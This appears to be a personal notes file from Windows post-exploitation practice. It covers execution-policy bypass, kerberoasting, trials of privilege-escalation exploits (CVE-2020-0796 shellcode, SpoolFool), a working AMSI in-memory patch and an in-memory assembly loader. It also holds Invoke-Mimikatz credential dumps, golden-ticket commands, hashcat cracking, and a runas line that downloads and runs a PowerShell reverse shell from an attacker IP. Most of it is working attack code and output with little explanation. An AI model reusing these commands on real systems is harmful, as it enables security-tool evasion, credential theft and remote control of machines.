

# Execution policy bypass

powershell - ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand $env:PSExecutionPolicyPreference="bypass"

Import-Module 
Get-Command -Module 

 

# kerberoasting

In such an attack, an adversary masquerading as an account user with a service principal name (SPN) requests a ticket, which contains an encrypted password, or Kerberos. (An SPN is an attribute that ties a service to a user account within the AD). The adversary then works offline to crack the password hash, often using brute force techniques.

What is a Kerberoasting attack?
Kerberoasting is a post-exploitation attack technique that attempts to crack the password of a service account within the Active Directory (AD).


How do Kerberoasting attacks work?
Kerberoasting attacks exploit a combination of weak encryption techniques and insecure or low-quality passwords. These attacks typically follow the below process:

An attacker who has already compromised the account of a domain user authenticates the account and launches a new session.
The attacker, who appears to be a valid domain user, requests a Kerberos service ticket from the ticket granting service (TGS) using tools like GhostPack’s Rubeus or SecureAuth Corporation’s GetUserSPNs.py.
The adversary receives a ticket from the Kerberos key distribution center (KDC). The ticket contains a hashed version of the account’s password, or Kerberos.
The adversary captures the TGS ticket and Kerberos from memory and takes it offline.
The hacker attempts to crack the SPN value or service credential hash to obtain the service account’s plaintext password using brute force techniques or tools like Hashcat or JohnTheRipper.
With the service account password in hand, the adversary attempts to log in to the service account and is granted access to any service, network or system associated with the compromised account.
The attacker is then able to steal data, escalate privileges or set backdoors on the network to ensure future access.

# for privilege escalation

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html


# trying https://github.com/danigargu/CVE-2020-0796.git

this need sto be ttried on windows verion 1903 and 1909. downloading iso.

does not work in 1503

this actually uses an evaded windows shellcode

```C
uint8_t shellcode[] = {
		 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x6D, 0x64, 0x00, 0x54,
		 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76,
		 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17,
		 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17,
		 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F,
		 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99,
		 0xff, 0xc2, // inc edx (1 = SW_SHOW)
		 0xFF, 0xD7, 0x48, 0x83, 0xC4,
		 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3, 0x00
	};

```


`winver` for windows version


exe hosted 

```powershell
function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)), $functionName))
}

function getDelegateType {
 Param ([Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,[Parameter(Position = 1)] [Type] $delType = [Void])
 $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
 $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
 $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed') 
 return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], 
[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)

$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)

```
# https://github.com/exploitblizzard/Windows-Privilege-Escalation-CVE-2021-1732.git


```powershell
$bytes = (Invoke-WebRequest "http://example.com/path/to/binary.exe" -UseBasicParsing ).Content
$bytes = [System.Convert]::FromBase64String($string)
$assembly = [System.Reflection.Assembly]::Load($bytes)

$entryPointMethod = 
 $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').
   GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')

# Now you can call the entry point.
# This example passes two arguments, 'foo' and 'bar'
$entryPointMethod.Invoke($null, (, [string[]] ('foo', 'bar')))
```

# https://github.com/ly4k/SpoolFool

works on 1803 

can we define different Adduser and binary 

we can run with powershell

spoolfool

can we uninstall a security update through command line 

# https://github.com/Ascotbe/Kernelhub

for cve 

# we tried CVE-2016-0099	Secondary Logon Handle

we can get into administrator a command line


# trying mimikatz

mimi 2.2 : https://raw.githubusercontent.com/g4uss47/Invoke-Mimikatz/master/Invoke-Mimikatz.ps1

the result :

```
Authentication Id : 0 ; 52106 (00000000:0000cb8a)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/2/2022 11:29:39 PM
SID               : S-1-5-96-0-1
	msv :	
	tspkg :	
	wdigest :	
	 * Username : DESKTOP-ATB3U19$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	
	cloudap :	KO

Authentication Id : 0 ; 52107 (00000000:0000cb8b)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/2/2022 11:29:39 PM
SID               : S-1-5-96-0-0
	msv :	
	tspkg :	
	wdigest :	
	 * Username : DESKTOP-ATB3U19$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	
	cloudap :	KO

Authentication Id : 0 ; 50629 (00000000:0000c5c5)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 8/2/2022 11:29:37 PM
SID               : 
	msv :	
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	
	cloudap :	KO

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DESKTOP-ATB3U19$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 8/2/2022 11:29:37 PM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : DESKTOP-ATB3U19$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	 * Username : desktop-atb3u19$
	 * Domain   : WORKGROUP
	 * Password : (null)
	ssp :	
	credman :	
	cloudap :	KO

mimikatz(powershell) # exit
Bye!

```

2.1 mimi here : https://github.com/EmpireProject/Empire/commit/7efb7eeaabeb3daf916ead7856bb621bbca331f4

mimkatz video : https://www.youtube.com/watch?v=0OxhLjEZa3Y

`Find-Module "*SQL*"`

`PSSQLite` 

`install-module -Name PSSQLite`

`import-module PSSQLite`

`cd AppData\Roaming\MOzilla`

Post exploitation room intryhackme

understanding mimkatz: https://www.youtube.com/watch?v=AZirvtZNIEw

lsa and sha1 hashes were got
lsadump::lsa \pathc

`hashcat -m 1000 <hash> /usr/share/wordlists/rockyou.txt`

### Golden ticket attack with mimikatz

Kerberos ticket granting ticket account has to get his hashes dump

`lsadump::lsa /inject /name:krbtgt`

`kerberos::golden /user:Administrator /domain:controller.local /sid:<sid> /krbtgt:<hash> /id:<admin>`

`misc::cmd`

https://tryhackme.com/module/privilege-escalation


# users trying mimikatz

runas commands with mimikatz

```
C:\Users\m>runas /user:WIN10RED "powershell calc.exe"
Enter the password for WIN10RED:
Attempting to start powershell calc.exe as user "DESKTOP-ATB3U19\WIN10RED"
```

needs a new window

```powershell
$username = 'user'
$password = 'password'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process Notepad.exe -Credential $credential
```

anotherone - this works

```
$secpasswd = ConvertTo-SecureString "WinR3d@" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("WIN10RED", $secpasswd)
$computer = "DESKTOP-ATB3U19"
[System.Diagnostics.Process]::Start("powershell -ep bypass -file C:\Users\m\new.ps1","", $mycreds.Username, $mycreds.Password, $computer)
```

```
 start-process -FilePath "powershell.exe" -Verb runas /user:win10red
```

remotely invoking powershell

doesn't work

```

C:\Program Files (x86)\Microsoft Visual Studio 14.0\VC>cmd /k hostname
DESKTOP-ATB3U19

PS C:\Windows\System32> Enter-PSSession DESKTOP-ATB3U19 -credential (get-credential -username WIN10RED)

cmdlet Get-Credential at command pipeline position 1
Supply values for the following parameters:
Message: WinR3d@

```

```
runas /user:ACCESS\Administrator /savecred "powershell -c IEX (New-Object net.webclient).downloadstring('http://10.10.14.6/Invoke-PowerShellTcp.ps1')"
```

```
Invoke-Command -ScriptBlock <COMMAND> -ComputerName <COMPUTER> -credential <USERNAME>
```


